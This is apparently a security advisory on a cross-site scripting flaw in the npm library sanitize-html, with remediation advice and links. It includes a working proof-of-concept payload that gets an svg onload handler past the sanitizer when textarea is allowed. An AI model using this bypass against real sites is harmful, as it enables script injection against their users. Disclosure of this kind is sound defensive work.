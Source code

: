 ## Overview
[`sanitize-html`](https://www.npmjs.com/package/sanitize-html) is a library for scrubbing html input of malicious values.

Affected versions of this package are vulnerable to Cross-site Scripting (XSS) attacks. If at least one `nonTextTags` tag is allowed, a malicious user may potentially conduct an XSS attack.
**PoC:**
```js
var sanitizeHtml = require('sanitize-html');

var dirty = '!<textarea>&lt;/textarea&gt;<svg/onload=prompt`xs`&gt;</textarea>!';
var clean = sanitizeHtml(dirty, {
    allowedTags: [ 'textarea' ]
});

console.log(clean);

// !<textarea></textarea><svg/onload=prompt`xs`></textarea>!
```

## Remediation
Upgrade `sanitize-html` to version 1.11.4 or later.

## References
- [Github Issue](https://github.com/punkave/sanitize-html/issues/100)
- [Github Commit](https://github.com/punkave/sanitize-html/commit/5d205a1005ba0df80e21d8c64a15bb3accdb2403)
